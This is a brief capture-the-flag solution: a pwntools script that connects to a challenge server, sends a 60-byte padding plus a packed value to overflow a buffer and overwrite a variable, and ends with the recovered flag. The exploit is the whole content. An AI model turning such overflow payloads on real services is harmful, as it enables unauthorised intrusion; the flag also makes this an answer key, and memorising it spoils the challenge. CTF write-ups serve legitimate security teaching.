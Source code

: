 from pwn import *
```
#p = process('./buffer')
#elf = ELF('./buffer')
p = remote('chall.pwnoh.io', 13372)
res = p.recvuntil(':')
print(res)
offset = 60
payload = b'a' * offset + p64(0x45454545)
p.sendline(payload)

p.interactive()
```
#bctf{wHy_WriTe_OveR_mY_V@lUeS}
